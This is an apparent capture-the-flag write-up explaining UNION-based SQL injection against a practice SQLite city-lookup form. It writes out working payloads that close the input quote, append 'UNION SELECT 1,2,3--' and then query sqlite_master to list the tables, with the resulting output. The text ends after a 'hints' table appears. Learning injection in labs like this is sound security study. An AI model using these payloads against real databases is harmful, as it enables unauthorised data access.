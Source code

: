 SELECT city, address, phone: This part specifies which columns to retrieve from the table (city, address, and phone).
FROM cities: Specifies the table to retrieve the data from, in this case, cities
WHERE city = 'citynameentered'

Adding ``' UNION SELECT 1, 2, 3--`` is a common sql injection at the end of our input.

**NOTE:**
UNION: This keyword combines the results of two or more SELECT statements. 
For a UNION to work correctly, both SELECT statements must return the same number of columns with compatible data types.
Select 1, 2, 3: adds columns 1, 2, 3 we have used 3 columns as we are returning 3 columns like in the previous question.

Say for example entering 

```Algiers' UNION SELECT 1,2,3--```

we use a ' after the cityname to close the input field so we can start our SQL query
what this looks like -> 

```
SELECT city, address, phone FROM cities WHERE city = 'Algiers' UNION SELECT 1,2,3--
```

And hence we can see that it has added a new row :D 

```
City	             Address	                        Phone
1	                    2	                              3
Algiers	       Birger Jarlsgatan 7, 4 tr	      +246 8-616 99 40
```

after knowing our basic injection works we want to find out what other columns are present in this SQL as it could relay more hints for this.
I used the hint talking about SQLiLite so searching up SQLiLite show tables 

https://stackoverflow.com/questions/82875/how-can-i-list-the-tables-in-a-sqlite-database-file-that-was-opened-with-attach

Only ``"SELECT name FROM sqlite_master WHERE type='table'"`` works for me
this command caught my eye 

so remaking our command to 

``'UNION SELECT name,1,2 FROM sqlite_master WHERE type='table'--``

this selects from the name column then injects 1,2 
name Column: The name column in sqlite_master contains the names of all tables, indexes, and views.

sqlite_master Table: In SQLite databases, sqlite_master is a special table that stores metadata about the database structure.

the last one type='table' essentially filters for the table names in the database.

This essentially does.

```
SELECT city, address, phone FROM cities WHERE city = '' UNION SELECT name, 1,2 FROM sqlite_master WHERE type='table'--
```

This returns us something intresting 

```
City	               Address	  Phone
hints	                 1	        2